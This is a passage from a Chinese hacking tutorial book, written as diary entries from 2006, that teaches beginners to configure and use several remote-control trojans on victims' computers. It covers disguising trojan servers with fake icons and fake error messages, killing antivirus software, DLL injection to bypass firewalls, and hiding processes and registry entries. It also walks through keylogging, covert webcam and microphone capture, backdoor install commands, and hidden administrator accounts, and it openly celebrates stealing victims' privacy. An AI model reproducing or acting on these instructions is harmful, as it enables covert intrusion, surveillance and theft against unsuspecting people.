这款软件最大的一个亮点就是它在对付防火墙的本领上，可以正常穿透大部分的防火墙，所以它绝对是款木马中的精品。而在远程控制方面它基本综合了其他木马的优点，汇集一身，它的远程管理操作项目非常多（图46-11）。可以看到有“系统管理”、“网络管理”及“其他管理”。而里面细分的功能又是种类繁多，为我们牢牢控制住肉鸡打下坚实的基础。“系统管理”部分包括了基本的文件管理、进程管理、服务管理、注册表管理及命令提示符。点击相关的功能模块就可以在弹出的相关窗口进行操作。

软件的作者非常了解菜鸟的心理，把软件的每个部分都做得非常细致。比如当用户抓到肉鸡后对肉鸡进行操作，上传或下载文件的过程中，我们都可以通过主窗口的“传输查看”命令来查看正在进行传输的文件情况，包括文件大小、压缩比、传输速度等（图46-12）。

**服务管理：** 此命令并不是对远程服务端进行更改的命令，而是 NT 内核系统的服务选项进行管理的功能。在这我们可以对远程系统的服务进行查看，并且通过右键可以实现启动服务、删除服务、停止服务的操作。除此之外，用户可以创建新的服务项，这样就可以在木马程序被杀毒软件查杀后，立刻启动其他不被查杀的木马以继续控制远程计算机。

**安装：** 点击此命令，会弹出个窗口要求输入新的服务名称，确定后还需要分别输入服务的描述，以及文件路径等信息，这样一个新的系统服务将创建完成了。

**注册表管理：** 用于管理注册表，用户通过客户端的右键命令可以新建、删除或者重命名注册表的各个键值等注册表操作命令，它的操作和“文件管理”命令差不多，这里就不多叙述了。

**命令提示符：** 木马本身模拟了一个类似命令提示符的功能，这样我们就可以执行很多终端命令，如 NETSTAT 等。

**屏幕监控：** 在弹出的“屏幕监控”中可以对远程桌面进行查看。当通过提示栏确认远程计算机已经连接成功后，选择“开启”选项，就可以开启远程桌面的监控。可惜的是，只能进行桌面监控，而无法进行鼠标、键盘的控制。不能和自己的肉鸡主人开玩笑，估计下个版本会增添这一功能吧！另外，将“保存图像到目录”选项选中，在后面的输入框中输入一个目录，就可以将截取的图像保存到我们指定的目录中去。此外这款神奇的木马可以帮助我们在肉鸡上开代理，通过“代理功能”命令，在弹出的窗口中点击“开启”按钮，就可以在远程计算机上打开 HTTP 代理，从而使这台计算机成为一台服务器。

## 三、亮点

这款木马的一个最大亮点，笔者认为就是可以有效地穿越很多防火墙。这一点就使这款木马在木马的王国里排名大幅靠前。在“系统管理”菜单中的“关闭防火墙和杀毒软件”和“清除 CMOS 数据”两个特别 NB 的功能。通过“关闭防火墙和杀毒软件”命令，可以关闭掉 XP、2003 系统自带的防火墙功能。这款木马还给大家提供把肉鸡打造成服务器的工具“SQL 数据库连接工具”，只要在相应的位置写上，就可以顺利连接了，不必我们再去苦苦搜寻第三方数据库连接工具。此外的“端口转发”、“网络嗅探”和“查看共享”则需要注册版才可以用，这里就不介绍了！

## 日记47-1：超级远控小马 C.I.A

2006 年 4 月 5 日 晴天没云彩 我就是高兴（因为我发现了 C.I.A 就是好）

在国产木马大幅度发展的同时，国外的木马也茁壮成长起来了。C.I.A 就是一款国外进口的强大木马，功能强大得很，如同国内的 PCVIEW 2006 木马一样，这款木马也可以穿越大多数的防火墙。正因为这一点，所以它也跑出来急着和广大读者见面了。

- 软件语言：简体中文
- 软件类型：国外软件
- 运行环境：Win9X/WinXP/Win2000/Win2003/Linux/Unix/
- 授权方式：共享软件
- 软件大小：10.69 MB

### 一、配置服务端

首先需要生成一个木马的服务端，解压缩软件，然后直接运行。喜欢 E 文的可以用其 E 文版本。而其他如果对 E 文不太明白的可以用其汉化版。国内很多的汉化大师总是能急我们菜鸟之所急，想我们菜鸟之所想。首先来看下它的配置界面（图47-1），给人一种小巧的感觉。

如果说我们以前说的那些木马是虎背熊腰的大汉的话，那么这款进口的小马可以说给人第一感觉就是小家碧玉。外表上看只有 8 个功能模块。这样的木马能好用吗？也许很多菜鸟都会这样问。点击“客户端设置”功能模块，我们发现出来更多的功能模块，原来这个小马外表看起来小，功能都一个一个地隐藏着啊（图47-2）。

点击“创建服务器”，打开服务端程序设置窗口（图47-3）。

首先点击“主功能”按钮，在右边的界面“Port”中输入木马所使用的端口。默认的服务端程序连接端口为“6333”，当然这个完全可以自己更改。在“transfer”中指定木马服务端文件传输端口，默认为“6334”。在“Keylog”中更改键盘记录连接端口。我们都知道木马是以服务的方式进行启动的，需要使我们的目标去运行它，而现在即使是一个刚会上网的菜鸟，也知道网络安全的基本常识，更何况那些老鸟了！所以我们要使他们没有防备，就要做好伪装。可以在“Server name”中为木马程序起个有迷惑性的服务名称，默认的 %UN%。此外我们辛苦弄到的肉鸡，我们当然不希望也不想看到其他黑客强占了我们的肉鸡，所以我们要设置密码。在“Password”中设置一个连接木马的验证密码（图47-4）。

“Firewall Bypass Method”防火墙穿越模式是最重要的一项设置，也是本木马增色的重要一点。可以使用两种方式穿越防火墙，包括以 spyware 的方式运行，或者使用 DLL 注入的方式直接插入到任意系统进程中启动运行。

> 小提示：当设置为“DLL Spyware Fwb”时，木马以普通间谍软件的形式运行。可以反弹连接客户端，这对于普通防火墙能起一定作用。

> 变态防火墙连反向连接都禁止的话，就只有采用线程插入的方式，混进 IE 或者某些系统中穿越防火墙的限制。勾选“Dll Inject”项，并选择将木马插入到 IE 或“Explorer”进程中，同时还可以自定义插入进程的 DLL 木马模块名称。默认为“wsock32.sys”，这样即使主机管理员产生了怀疑，在查找进程中的可疑进程时，也轻易不易将木马卸载。

“运行设置”在这里可以选择设置木马服务程序的启动方式。可以根据具体实际情况进行勾选（图47-5）。


可以说这款木马在隐藏自己上，软件作者下了很大工夫。我们知道现在的人对网络都有种谨慎又避慎的心理，所以如果它不小心运行了我们的马，可能一看情况不妙，就迅速地启动了杀毒软件或者其它形形色色的安全软件了。所以我们要让运行我们马的朋友知道有问题，但不会认为是中了马了！点击“安装过程”功能模块，如（图47-6）。

软件作者制作了四个提示符号，分别是我们平时内存模块不足、机器故障了弹出的提示。根据自己喜欢选择一个标志。然后当目标运行我们的服务端时，就会弹出警告框。他们一般会知道有故障了，但绝对想不到是中了马儿了！我选择了三角的警告图标，里面是个叹号，当目标运行服务端时就会弹出警告框（图47-7）。


点击界面中的“防火墙过滤”功能按钮，在右侧的界面中勾选“反病毒/防火墙”，然后点下方的“载入列表”按钮，浏览选择木马所在的文件夹“killlist”下的“Huge killlist.txt”文件，可导入程序自带的杀毒软件和防火墙名单（图47-8）和（图47-9）。设置完毕后，可以看到出来了469种关键词过滤。


图47-9


图47-10

常见的诺顿、MCAFEE等都在反杀名单中（图47-10）。此外我们可以点击“添加名称”按钮，输入国内的一些常见的杀毒软件和防火墙名称，如瑞星、卡巴等（图47-11）。


图47-11

这样设置之后，不是机器上的杀毒软件杀我们了，而是我们将加入关键词过滤里的杀软及一些安全软件给杀掉了。（小菜：哇噻！好强的木马啊！！）

刚才的功能是木马将杀毒软件给杀掉的设置，而有的时候通过远程控制木马我们仍然还有做不了的事情，比如有的时候你需要专门监视下目标的键盘记录。这个时候怎么办？通过专业的键盘记录工具的效果要比远程控制木马附带的键盘记录功能强大得多。所以这个时候我们就需要将木马的服务端与其他你想给肉鸡用的木马一起发过去，这个时候我们就少不了捆绑功能。点击桌面的“合并器”功能项，在右侧的窗口中点击“添加文件”，弹出文件添加对话框。在其中浏览指定要添加的文件，在“File Destination”中可指定捆绑文件的释放路径；在“Execution Type”中指定捆绑程序以“隐藏方式”或最大化等方式运行。点击“添加文件到列表”按钮后，即可将指定的木马程序捆绑到木马服务端中去。（图47-12）

### 其他设置项

“Socks/下载者”：点击选择界面中的“Socks/下载者”功能项，在右侧窗口中选“下载运行文件”项，输入文件下载的地址，以及保存的文件名和路径，即可让木马在运行时候自动下载某个程序（图47-13）。


图47-12


而如果想用代理的话，那么就不要客气，直接勾选界面中的“运行时打开Socks4”项，输入连接端口，我们所控制的木马就有代理服务器功能了！

“秘密设置”：秘密设置并不是说我们在设置木马时要悄悄设置，而是设置后的服务端运行后在目标主机隐藏的设置。可能是软件汉化作者对这一点翻译得不是很好导致的吧！可以设置的有“在任务管理器隐藏进程”、“在 Windows Explorer 隐藏文件”及“在注册表中隐藏字符串”和“在 MSCONFIG 隐藏名称”四个隐藏。可以看出软件作者完全是按照清除木马病毒的形式来的反制作，所以都是针对清除木马时的操作（图47-14）。

我们直接全部勾选就可以了。因为谁不希望自己的马儿越强壮、越隐藏越好啊！而且在各个大的隐藏下，我们还可以增加相关的。比如“在任务管理器隐藏进程”中我们就可以增加其隐藏进程（图47-15）。


点“通知”功能页面，提供了多种肉鸡上线通知功能（图47-16）。

点“添加cgi/php”可以使用 CIA 网站提供的 PHP 页面收集即时上线的肉鸡（图47-17）。


此外还有 ICQ 通知功能，不过国内用这个即时通讯软件的实在是少，所以我们就不介绍了。如果哪位大师将其修改为 QQ 通知就好了。

“杂项/图标”，这个被叫作杂项的确很有道理，可以设置些木马运行后对目标主机都禁止的项目。根据自己需要来勾选，不过尽量不要选那么多的禁止运行。因为那样的话，肉鸡主人会警觉，然后动用一切力量去清除我们的马儿！！（图47-18）


图47-18


图47-19

最好勾选“记录脱线键盘”项，开启木马的离线键盘记录功能，并设置文件的最大体积，这样就可以在肉鸡离线时记录用户的键盘输入了。此外点“更改服务器程序图标”按钮，可以更改木马服务端程序的图标，比如改成图片或文本图标。木马附带了272个隐藏图标，大家可以找个自己认为很有迷惑力的图标。这样设置后，就为隐藏木马增加了另一个强有力的砝码（图47-19）。

全部设置完后，点“创建服务器”按钮，输入文件名及保存路径，并选择后缀名。它可以生成6种格式的木马程序（图47-20）。


图47-20

### 二、远程控制

肉鸡上线通知：肉鸡上线了，当然要采取一个方式来通知我们。这一点我们可根据服务器设置选择不同的连接方式。使用网页功能时，可以在客户端主界面点击“客户端设置”，“记录列表”打开列表通知器对话框，点击“更新列表”按钮，就可以下载网站上服务端连接列表了。在列表信息里会显示远程肉鸡 IP 地址、连接端口。返回主界面中，输入远程主机的 IP 地址、连接端口及密码，点“连接”按钮，就可以连接远程主机了。（图47-21）


远程管理：连接肉鸡后，我们当然是想干要干的事情。而木马提供多少远程管理功能也是衡量一个木马好坏的标准。点击主界面中的“管理器”按钮（图47-22），注意不是“管理”按钮。

在弹出功能子菜单中，选择“文件管理器”可以将远程主机进行文件管理，删除文件或者下载文件等（图47-23）。此外还可以进行注册表管理、进程管理、服务器管理、窗口管理、信息管理、脚本文件等操作。


看MM的功能：点击主界面的“视频/音频”，可以查看远程桌面，监视远程主机的摄像头，查看键盘记录（图47-24）。


其它功能在“管理”菜单里可以管理服务端程序，并进行文件传送、代理服务器设置等控制（图47-25）。此外在“联系”里可以与服务器建立会话，进行聊天等。


在“恶作剧”里可以与远程主机搞些恶作剧，比如隐藏图标、自动打印、锁定鼠标、自动打开光驱等等功能（图47-26）（图47-27）。

尾声：这款看着很小家碧玉的木马就介绍完了，具体的还要我们的读者去实际地摸索，因为它的功能实在是太强大了！首先它有隐藏自己的功能，另一个就是更改自己的图标，很强大，竟然提供了272个隐藏图标让我们来挑选。其次当目标运行我们的服务端后，竟然还可以弹出警告窗口，使目标误以为是机器其他方面有故障了。此外它强大得竟然可以将肉鸡上的杀软关闭，469种关键词过滤并可以自己添加关键词，有效地对付了虎视眈眈的杀毒软件。一句话，这款木马就是个强啊！！！

## 日记四十八：随意门2006

2006年4月6日  晴  今天我高兴

> “万能的主啊！请赐给我一扇神奇的通往2006年任何一天的一扇门，给我一台可以控制地球上任何一台主机的电脑吧！！”

（小行：拜托，你不要总说梦话好不好？我在写稿子呢，被你弄得写不下去了！“随意门2006”我代表主送给你，你快去拿着用去吧！）

有两种服务端。一个是老样子 DLL 形式的，另外一个是 EXE 形式的，安装成服务然后把 DLL 插入到 WINLOGON.EXE 进程里面！为了方便初用者，比以前的都智能化！先看看配置程序界面：（图48-1）

### 一、基本设置

- **端口**：这里填入的任何信息都无效，因为随意门是不开放任何端口的。你可以用专用连接器连接对方任意开放的端口。
- **密码提示**：连接对方之后看到的提示信息，自定义！可以迷惑管理员。
- **进入密码**：进入后门必须用到的密码。这样才能确保我们私有肉鸡的安全啊！~
- **命令提示符**：输入密码之后就可以得到以命令的形式控制的控制权，这个是命令的提示符。在这个提示符下输入控制命令。


### 二、服务设置

- **服务名**：后门会安装成系统服务，利用 svchost.exe 宿主程序启动，这个是安装的内部服务名，用于区别其他服务。注意，这个选项只能是英文，不能用汉字，否则会安装错误。
- **服务显示名**：显示在服务列表上的信息，这个越伪装越好！要能迷惑管理员。
- **服务描述**：在服务列表上的描述服务的设置，这个也越伪装越好！

### 三、上线设置

- **SMTP 服务器**：发送 IP 邮件的信箱所在的服务器，这里推荐用 163 邮箱作为发送 IP 上线邮件。
- **发送信箱**：用于发送 IP 邮件的邮箱，这里与上面的 SMTP 服务器对应，163 的邮箱对应的 SMTP 服务器是：smtp.163.com。
- **验证用户名**：发送 IP 邮件的邮箱用户名，比如 163 的邮箱用户名。
- **验证密码**：用于发送 IP 邮件的邮箱密码。
- **接收邮箱**：另外一个邮箱用于接收上线的邮件，比如说 QQ 的邮箱：tenax@qq.com
- **信件主题**：邮件的主题，自己设置。可以是任意的提示信息，如：肉鸡上线~


设置完所有的选项就可以生成我们所要的木马文件了：点击“生成服务端”按钮，即可生成木马的服务端（图48-2），提示我们服务端已经成功生成。

“确定”后，程序打开一个记事本，一个同我们生成的 DLL 同名的记事本，记录下我们的配置（图48-3）。


建议将此文本文档保存下来，以免以后我们再连接我们的肉鸡时忘记我们的配置，那么我们的肉鸡就飞了。我们要做好一个养“鸡”专业户，最好还是给肉鸡都登好记，这样它想跑也跑不了了。嘿嘿~

### 安装后门

安装后门非常简单，在配置选项里面生成了一个服务端的 DLL。我们把它改名为 suiyimen.dll 然后上传到肉鸡上，然后在命令行下输入：rundll32 suiyimen.dll,Install 就可以了。安装完毕，如果你不放心是否安装成功，你可以去看看安装日志。日志的全路径是：%system32%\temp\sysevent.tmp（%system32% 是环境变量），可以用 type 命令查看（我的系统安装在 C 盘）：

```bash
type c:\windows\temp\sysevent.tmp
```

具体的执行情况看下图（图48-4），下面看看专用的两个连接器 nc.exe 跟 c.exe；NC.exe 是一个图形界面的连接器，运行后界面如（图48-5）：


图48-4


图48-5

c.exe 是一个 DOS 界面的连接器，直接运行后如（图48-6）：


图48-6

nc.exe 其实就是一个 NC，填入目标 IP、任意端口，直接回车就可以弹出一个 DOS 界面出来，那个其实就是 nc -l -p 1330（正在监听1330端口等待上线）。


图48-7

注意，不能直接自己 nc -l -p 1330。因为如果你自己 nc -l -p 1330，是不会有机子上的，原因是反向连接器会在 nc 监听的时候发送 ICMP/UDP/TCP 包通知目标主机上线。连接后如（图48-7）：

c.exe 是 DOS 界面的，用法跟 telnet 一样：c 目标IP 端口  
如：c 192.168.243.1 80 就可以等待机子上来了。执行的结果如（图48-8）：


图48-8

连接的时候还要注意，一些服务器可能有几个以上的 IP 地址。为了不更多地占用原来端口的资源，后门安装后只会在其中一个 IP 地址上面进行监听，所以你要查看日志，确定后门在哪个 IP 上进行复用端口，然后连接那个 IP。如果连接其他的 IP 是不能得到 SHELL 的哦。

卸载后门：卸载后门有两种方法：

- 方法1：直接从命令行上输入：Rundll32 Dll名,Uninstall 密码  
  这里的密码是你设置的后门“进入密码”，用于防止别人非法卸载后门。

我配置后门的进入密码默认是 password，所以我输入：rundll32 suiyimen.dll,Uninstall password。如果不放心是否卸载成功，你也可以去看看日志（图48-9）。  
方法2：连接进入后门之后用命令 remove 进行卸载（图48-10）。


### 木马的命令选项

下面介绍一下使用命令：

- `shell` —— 得到一个 Cmd Shell
- `pslist` —— 列举进程
- `pskill PID` —— 杀进程，后跟进程ID
- `svclist` —— 列举系统服务
- `svckill SERVICENAME` —— 杀服务，后跟服务名
- `clean` —— 清理日志
- `info` —— 得到系统信息
- `findpass` —— Find Administrator's Pass
- `opents PORT` —— 开启终端，后跟自定义终端端口
- `closets` —— 关闭终端
- `clone Password` —— 将 Guest 克隆成管理员用户，后跟自定义的 GUEST 密码
- `admin USER PASS` —— 添加隐藏的高级管理员用户，后跟用户名与密码
- `userlist` —— 列举系统的所有用户
- `deluser USER` —— 删除用户名，后跟要删除的用户名
- `cd DIR` —— 类似于 DOS 下的 cd 命令，改变当前目录
- `dir` —— 众所周知（我就不解释了！）
- `del/delete FILE` —— 删除文件，后跟文件名
- `exe ExeFile` —— 运行程序，后跟 EXE 名
- `restart` —— 重启
- `shutdown` —— 关机
- `http://../exe` —— 下载东西
- `quit` —— 离开

## 日记四十九：SlimFTPd 微型 FTP 木马

2006年4月7日  多云  心情如多云

说起马来，都是高大的！（小菜甲：难道就没有小马吗？小行：太小的就叫驴了！）说起木马来，我们都很喜欢！说起小而功能又丝毫不逊色的木马来，我们就是三个字“更喜欢”。今天我们就来看看一款微型木马“SlimFTPd 微型 FTP 木马”。别看它小，但是“内脏”却是很全，在网上搜到这个的最新版本。

### 一、功能概要

解压缩运行，出来了四个文件，分别是 SlimFTPd.exe、slimftpd.dll、slimftpd.xml、ServiceTool.exe，共四个文件程序！（菜鸟：都是做什么的啊？）其中的 SlimFTPd.exe 是主程序，就是这个木马的核心及灵魂，因为我们做什么都是要靠它的；slimftpd.dll 是配置程序；slimftpd.xml 是数据文件，我们什么也不用动。ServiceTool.exe 是附属程序，可以将本木马变为系统服务、开机自动运行的程序。

经过上面的大致介绍，下面我们来说说具体使用方法吧。首先我们来看看这款微型的小马怎么配置？木马再好，你不会使用，还不是照样的玩完。就好比玩 CS 的时候给你一把枪，你不会用，还不是照样的等死！

### 二、使用与配置

把 SlimFTPd.exe、slimftpd.dll、slimftpd.xml 放在肉鸡的同一目录下（图49-1），然后运行主程序 SlimFTPd.exe 即可。SlimFTPd.exe 相当于是服务端，运行之后即可在肉鸡上提供 FTP 服务。在将程序送到肉鸡之前，我们先在本机对 slimftpd.dll 文件进行设置，等会详细解说一下啊！这里先说下几点要注意的，首先如果要想将其注册为系统服务，请将 ServiceTool.exe 放在肉鸡同一目录下，然后启动。其次因为这款木马叫作“SlimFTPd 微型 FTP 木马”，所以大家可以看出来，它主要的职责是 FTP，它主要是用于在肉鸡上 COPY\Download（上传和下载）文件，使用起来非常方便。


图49-1

虽然它是一个不错的小马，但它有个缺点，那就是当程序运行后，会在目标的“进程管理器”中有所显示。如果目标是个菜鸟的话，还可以。要是目标是高手的话，你就玩不转这个木马了！本程序的关键所在是修改 slimftpd.dll，因为很多功能要在这里实现。根据具体情况具体更改相关的设置，更改时用“记事本”打开。


图49-2

### 具体设置

方法是：选中该文件，右键在“打开方式”中选择“记事本”，然后确定（图49-2）。

```
slimftpd.dll 要具体配置，一共要设置9项参数。

1. BindInterface —— 用于配置（限制）用户IP的访问
   A. BindInterface All // 为任何人都可连接（默认的配置）
   B. BindInterface 127.0.0.1 // 为只可访问的IP
   作者建议大家使用默认配置：BindInterface All

2. BindPort —— 端口设置这个默认为21端口，您可以根据自己的需要修改。不过我一般都是用默认的！
   格式：BindPort Port
   例如：BindPort 21

3. <User "user"> —— 连接用户名（user）
4. Password "pass" —— 连接密码（pass）
5. Mount / c:\ —— 访问目录（C分区）
6. Allow / Read —— 允许读取（下载）信息
7. Allow / List —— 允许列目录（查看）信息
8. Allow / Write —— 允许写入（上传）信息
9. </User> —— 代码结尾

（注意：若要设置多用户，请先空一行，然后再写入上面的设置。）
下面是两人登录用户的实例（仅设置的第3至9项参数）：

<User "1">
Password "2"
Mount / D:\
Allow / Read
Allow / List
Allow / Write
</User>

<User "admin">
Password "admin"
Mount / c:\
Allow / Read
Allow / List
Allow / Write
</User>
```

我们要进行具体的设置。（图49-3）所示的就是假设设置的具体的 slimftpd.dll。

### 三、实战训练

因为这款木马的特色是在其 FTP 上，所以我们有必要来看下如何发挥这匹马的 FTP 功能。下面我教大家如何把 SlimFTPd 微型 FTP 木马（枫叶网络汉化版）当小型 FTP 服务器使用。

执行“开始|运行”，打开“运行”对话框，输入命令：`ftp 192.168.1.91`（其中的 192.168.1.91 为远程主机的 IP，即运行了我们配置的 SlimFTPd 的主机）。这样就可以连接到远程的 192.168.1.91 主机（图49-4），确定后，在打开的程序框中输入我们已经在 slimftpd.dll 设置好的用户和密码信息，回车。就可以与远程主机建立 FTP 连接，并可以任意下载它的文件或者上传文件。

远程主机就成了我们的免费 FTP 服务器了（图49-5），显示我用 FTP 命令下载远程主机 192.168.1.91 的 mima.txt。

本篇日记就写到这里，又是深夜2点，该……和 MM 视频唠嗑了。

## 日记开始：粉色信鸽2.5

2006年4月10日  晴  心情粉红

“粉色信鸽2.5”一个典型的 C/S 远程控制类软件。具有文件管理、注册表管理、进程管理、屏幕和鼠标直接控制以及其他综合管理功能。其中注册表管理功能相当强大齐全，所有操作与本地管理注册表一样方便。文件传输方便，支持拖放上传整个目录。新增窃听 QQ/ICQ 消息功能。无论是发消息还是收消息，几乎无一错漏。软件包中不含服务端。服务端可由客户端生成和设置各种默认参数。

在打开的“生成（信鸽）服务端”对话框（图50-2）设置木马的服务端：在“连接方式”中有四个选项。下面详细地介绍一下：

- 1. 监听命令端口——这是最简单的，也是最经典的 C/S 远程控制的连接方式，服务端打开一个端口，等待客户端的连接。对于局域网内的应用来说，一般只选这个就足够了。
- 2. 主动连接客户端——服务端会不断地向客户端发送信息，请求连接，这种连接方式要求客户端有固定的 IP 地址！选中这个方式，要填写客户端信息，一般取程序给的值就行了。
- 3. 通过 FTP 上线通知——服务端每 30 分钟向 FTP 服务器递交地址、端口、密码信息，然后等待客户端从 FTP 处获取信息，并连接客户端。这种连接方式要求用户提供一个 FTP 服务器、用户名、密码。
- 4. 通过 FTP 主动连接客户端——如果客户端不在局域网内，拥有动态 IP，服务端在局域网内或使用动态 IP，这是最好的连接方式，同样用户要有一个 FTP 帐号才行。

等你全部都设置好了之后，点击“马上生成”，出现进度条，请耐心等待。当出现以下提示表明成功了。把它送给你远方的朋友吧！（图50-3）

选择好生成的路径，比如在木马的所在文件夹（图50-4）。

注意我们生成的木马 mtv.exe 的图标同 WINRAR 文件一致，这样的伪装还可以吧。以后如果你看到 WINRAR 图标的文件可要小心一点哦，说不定它就是别人的小马哦~~

## 远程控制的功能：

- 1、主机列表

主机列表列举出我们上线的肉鸡。看，有主机主动连接我们哦。（图50-5）

## 第八章 木马实战连连看

有肉鸡主动连接我们。右键单击肉鸡 IP，选择“接收此主机的连接请求”（图50-6）就 OK。

如果你确定有一台电脑运行了服务端，并处于监听状态，那可以点“新建连接”，在下面的对话框中填入信息，点连接，这样快点。呵呵！~ 在“地址”中填入远程主机的 IP；“端口”一般为 82；密码填入我们设置的连接木马的密码。点“连接”就可以和远程主机连接上了（图50-7）。

当左下角出现图50-8所显示的信息时，表明已成功连接，可以进行控制了。

### 2、信息

生成“粉色信鸽系统信息报告”。有许多关于肉鸡的系统信息。

- 1. 系统的当前时间
- 2. 计算机名
- 3. 处理器型号
- 4. 驱动器的个数及分开列举各驱动器的总容量和可用容量
- 5. 当前主页
- 6. 当前用户网络登录名
- 7. Windows 安装目录
- 8. Windows 系统目录
- 9. 屏幕分辨率
- 10. 信鸽运行目录
- 11. 信鸽程序名

看我的肉鸡的系统信息（图50-9）：界面中还有一个“设置计算机名”功能来设置肉鸡名称。肉鸡太多了，取些比较容易记的名字就比较好，管理起来也比较方便。

在“设置远程计算机的名称”对话框（图50-10）中我们输入要设置的名称，点 OK，就完成了。我们还可以获取键盘记录的密码；点击“查看键盘记录”程序打开 getkeylog.txt，上面记录有肉鸡的键盘输入的各项东西，其中不乏有十分重要的登录密码哦。看我获取的肉鸡的键盘记录（图50-11）。

### 3、文件

我们可以打开远程主机的某一个文件夹，如 C 盘（图50-12）。

关于文件（文件夹）的操作命令有“打开”“带参数打开”“删除”“重命名”“剪切”“复制”“粘贴”“下载”和“下载文件名”9项（图50-13）。

### 4、进程

我们可以对肉鸡的进程进行管理。点击“刷新列表”就会看到肉鸡当前的所有进程（图50-14）。看哪个进程不顺眼，我们就可以将其杀死。

可以将准备要查杀的进程添加到待杀列表里。例如将 HH.EXE 添加到自动查杀列表中，可以输入简短的说明即可。选定一个进程点击“杀死进程”，出现警告对话框，点“是”，即可杀死进程。

### 5、注册表

远程注册表的操作，同本地注册表一样。我们可以任意地操作。不过要小心点，别把肉鸡搞坏了（图50-15）。

### 6、直接控制

我们可以对肉鸡进行“监视屏幕”，还可以对肉鸡进行一些功能上的限制设置，然后就可以进行直接控制了（图50-16）。

### 7、网络

在“网络”功能项，我们可以设置远程主机的主页，还可打开远程主机的某个网页（图50-17）。

### 8、控制/限制（图50-18）

有三大类的设置：

- 一、控制类
  - 1、屏蔽三键
  - 2、弹出光驱
  - 3、远程注销
  - 4、远程关机
  - 5、远程待机
  - 6、远程重启
- 二、鼠标
  - 1、设置鼠标双击时间间隔
  - 2、交换鼠标左右键
- 三、隐藏驱动器

在要隐藏的驱动器前打勾，点“设置”就可以将驱动器隐藏（图50-18）。

### 9、其他

在此功能项中的项目较多。可以“发送信息”，设置“提示信息”。还有诸如“黑色屏幕”“伪装屏幕”“隐藏桌面图标”“隐藏鼠标”“隐藏任务栏”等功能。就等读者在 hacking 的时候慢慢体验了（图50-19）。

### 10、参数设置（图50-20）

参数设置分“远程设置”和“本地设置”，可以重新设置服务端的密码、端口号、主机标识等，然后再“重启服务”就会生效了。还可以让服务端查杀远程主机的程序，如杀毒软件。我们可以查看远程主机的程序列表，然后增加要查杀的程序。本地设置里是 FTP 服务器的设置。我就不多讲了。

## 日记五十一：语音视频任我行

2006年4月12日  阴天不晴  心情一般

“语音视频任我行”为任我行系列远程控制软件之一。从名字中我们可以知道它的主要功能就是远程语音和远程视频的控制。

## 软件的功能简介：

- 1、能强制打开远程主机的视频，进行监视。
- 2、能强制获取远程主机的语音，进行监听。
- 3、能相互进行语音通话，并保存相应的记录。

首先，还是看看如何配置木马的服务端：生成服务端程序，打开程序主界面（图51-1），然后点击“配置服务”，选择“生成服务端”（图51-2）。

程序打开“配置服务端”对话框，就在这里配置我们的小马：

### 1、基本设置（图51-3）

在这里要设置的仅仅是“连接端口号”（默认为：1983）和服务端图标。

### 2、邮件设置（图51-4）

我们最好将两者都改一下，不要用默认的设置。这样比较安全，增加隐蔽性。

我们可以开启这项服务。它是用来接收肉鸡 IP 用的。一般地，如果我们有 ADSL 宽带肉鸡，最好有这项设置，免得我们的肉鸡飞了。这年头养鸡不容易啊（要小心禽流感~*~）。

### 3、启动选项（图51-5）

如果远程主机是 Win9x 系统就写入注册表系统项；远程主机是 2000/XP 就注册为服务启动。

后者需要对“服务启动项”进行具体的设置，分别为：显示名称、服务名称、描述信息。建议将服务项设置得同系统已有的服务项越相似越好。越相似我们的小马被查杀的几率就越小。嘿嘿~~

### 4、安装信息（图51-6）

这里设置服务端的安装路径和服务端安装名称。在下面有两个比较有用的选项：

- “自动删除安装文件”，最好勾选上（毁尸灭迹！~）。
- “安装后在系统托盘处显示图标”，这个一般不用，除非你要让别人知道你正在监控他。

### 5、提示信息（图51-7）

就是在别人运行完你的“服务端”程序后，将出现的信息提示。不用就将“安装完成后显示的提示信息”前面的勾去掉。如果实在是想提示的话，就具体设置吧。可以设置“信息标题”“信息正文”“图标类型”和“按钮类型”，我们还可以事先“预览”一下，看自己设置的提示信息是否满意，不满意就再修改修改。

好了，基本的配置完成了。接下来就是想办法让远程主机运行我们的服务端。只要对方运行了我们的服务端，我们就可以对他的机子进行远程控制了。下面看下如何进行远程控制：连接远程主机。在主控端 Pclient（就是我们的……）

语音视频任我行的主程序的“远程主机：”中输入对方 IP 地址（例如：192.168.1.91）；如果你是直接 ADSL 拨号上网，在连接前，请先点击“获取”按钮来获取本机动态 IP，这样才能收听到对方的语音。然后点击“连接”按钮，连接成功后，就可以进行相关操作。

在“操作”菜单中有“屏幕监视”“发送信息”和“卸载服务端”三个选项（图51-8）。

屏幕监视就不讲了，就是监视远程主机现在在干什么。看下“发送信息”和“卸载服务端”。首先是“发送信息”：

第一步，在“发送信息”对话框（图51-9）设置要发送到远程主机的信息，然后点击“发送”按钮即可将信息发出。图51-10就是一个信息的样图。

再看下“卸载服务端”（图51-11）：我们如果想要远程清除我们的服务端程序，就使用这一功能。

在出现上面的“confirm”对话框时，选择“yes”，即可卸载远程服务端。

此外，我们还可以将客户端程序隐藏，必要时再使用热键（ALT+F3）呼出。点击“隐藏界面”选择“隐藏 ALT+F3”，OK。

下面来讲讲软件的最重要功能：语音视频。

### 一、视频操作

首先连接上远程主机。然后在“视频操作”功能区域中点击“搜索”按钮获取“远程的视频设备”，必须先要进行这一步，否则程序会报错（图51-12）。

待搜索到远程视频设备之后，就可以“开启远程视频”了。成功后，就可以录制视频录像了（图51-13）。有“视频录制”和“停止录制”两个功能键。要保存的话，单击“远程视频”按钮，选择好要保存的路径和文件名即可将我们录制的视频片段保存下来。

### 二、语音操作

我们可以将本地的语音发送到远程主机，也可以获取远程主机的语音信息。对应的功能项分别为：“发送本地语音到远程主机”（我们可以用来吓唬 PLMM）和“获取远程主机的语音对话”。

# 第八章：木马菜鸟连连看

机的语音通话”（窃取他人的隐私、机密）。还可以将声音录下来（掌握证据），并且可以设置录音的开始和结束。这个同“视频操作”有些相似。

语音操作区域（图51-14）：
这两项是该款软件的最重要也是最出彩的功能。
图51-15为我抓取的远程主机的视频截图。

> **任我行温馨提示：**  
> 软件在使用过程中有些要注意的地方：  
> (1) 对方（远程主机）只有是直接 ADSL 拨号上网不带路由器，（我们）才能进行连接。  
> (2) 隐藏主控端程序的界面后请按 ALT+F3 调用。这个上面好像讲过了，重复一下。  
> (3) 如果无法生成服务端程序或者无服务端程序，请把你的杀毒软件关闭后，再重新下载软件。

## 日记五十三：最新灰鸽子破解版

2006年4月20日  小雨  十全十美

